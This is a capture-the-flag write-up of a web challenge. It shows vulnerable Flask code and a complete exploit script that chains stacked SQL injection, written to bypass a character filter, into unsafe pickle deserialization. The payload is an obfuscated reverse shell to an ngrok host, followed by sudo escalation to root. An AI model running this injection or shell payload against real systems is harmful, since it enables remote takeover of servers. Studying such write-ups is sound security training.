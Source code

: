# MOVEable ❌ (Writeup from LazyTitan33)

## Challenge Description
> ![image](https://github.com/user-attachments/assets/b9f3744a-2bc9-4a64-8a58-b5e05f6e022f)


## Approach
For this web challenge, we just have a login screen:  

![image](https://github.com/user-attachments/assets/d45669b2-9c38-4e8b-bc3c-e9abf5925bfb)

There is some sanitization in the form of the `DBClean` function.

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

However, we can easily bypass this by using `/**/` instead of space and the single quote can be bypassed by escaping it with a backslash.

The `login` function uses [executescript](https://docs.python.org/3/library/sqlite3.html#sqlite3.Connection.executescript) for the login where we have SQL injection instead of using just "execute". This allows us to execute multiple SQL statements.

```python
@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
    print(user)
    if user:
        c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
        active_session = c.fetchone()
        if active_session:
            session_id = active_session[0]
        else:
            c.execute(f"SELECT username FROM users WHERE username=?", (username,))
            user_name = c.fetchone()
            if user_name:
                session_id = str(uuid.uuid4())
                c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
            else:
                flash("A session could be not be created")
                return logout()
        
        session['username'] = username
        session['session_id'] = session_id
        conn.commit()
        return redirect(url_for('files'))
    else:
        flash('Username or password is incorrect')
        return redirect(url_for('home'))
```

The upload endpoint is nerfed:  

```python
@app.route('/upload', methods=['POST'])
@login_required
def upload_file():
    flash('Sorry, the administrator has temporarily disabled file upload capability.')
    return redirect(url_for('files'))
```

But we don't need it because the `download` endpoint doesn't require authentication and it pickle loads the filedata which we could insert into using the SQL injection. We also need to insert an active session for the code to follow the correct logic.

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```

With the script below we create the pickle data that would execute our payload when it gets loaded and give us a reverse shell.

```python
import base64
import pickle
import os
import requests

class serial():
    def __reduce__(self):               
        return os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNTA2NSAwPiYx|base64 -d|bash',)

code = pickle.dumps(serial())
code = base64.b64encode(code)
revshell = code.decode()

url = 'http://challenge.ctf.games:32766/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}
data = '''username=s&password=\\';INSERT/**/INTO/**/activesessions/**/VALUES(\\'lazytitan\\',\\'lazytitan\\',\\'time\\');INSERT/**/INTO/**/files/**/VALUES(\\'payload\\',\\'%s\\',NULL);--";''' % revshell
requests.post(url, data=data, headers=header)

url2 = 'http://challenge.ctf.games:32766/download/payload/lazytitan'
requests.get(url2)
```

Once we have a foothold, we check our sudo permissions and see we can execute all commands as root without requiring authentication so we sudo bash to root and get the flag:  

![image](https://github.com/user-attachments/assets/16defa32-0711-41bd-94d6-167e42be516e)

`flag{ac53cd7aa8a2d1b2340a6eb4a356709e}`




   
